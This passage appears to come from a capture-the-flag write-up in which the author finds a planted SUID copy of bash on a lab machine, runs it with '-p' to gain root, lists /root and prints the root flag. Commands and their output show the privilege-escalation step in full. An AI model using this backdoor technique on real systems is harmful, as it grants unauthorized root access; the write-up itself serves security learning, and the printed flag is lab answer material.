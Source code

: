 It looks like a backdoor to get root rights again with the user. If we take a closer look at the file, it seems to be a bash binary:
```
james@overpass-production:/home/james$ file .suid_bash 
.suid_bash: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=12f73d7a8e226c663034529c8dd20efec22dde54, stripped
james@overpass-production:/home/james$ ls -al .suid_bash 
-rwsr-sr-x 1 root root 1113504 Jul 22  2020 .suid_bash
james@overpass-production:/home/james$ ls -al /bin/bash 
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
james@overpass-production:/home/james$ 
james@overpass-production:/home/james$ diff .suid_bash /bin/bash 
james@overpass-production:/home/james$ 
```
It has the same size and the same content.

So let's run it to get root rights:
```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
.suid_bash-4.4# ls -al /root/
total 28
drwx------  4 root root 4096 Jul 22  2020 .
drwxr-xr-x 23 root root 4096 Aug 14  2020 ..
lrwxrwxrwx  1 root root    9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jul 22  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 21  2020 .ssh
-rw-------  1 root root   38 Jul 22  2020 root.txt
.suid_bash-4.4# 
```
_Keep in mind that we have to run the file with the parameter `-p`. That allows the shell to start with SUID rights (as can be read [here](https://gtfobins.github.io/gtfobins/bash/#suid) or [here](https://stackoverflow.com/questions/63689353/suid-binary-privilege-escalation))._

We can now grab our root flag:
```
.suid_bash-4.4# cat /root/root.txt 
thm{d53b2684f169360bb9606c333873144d}
.suid_bash-4.4# 
```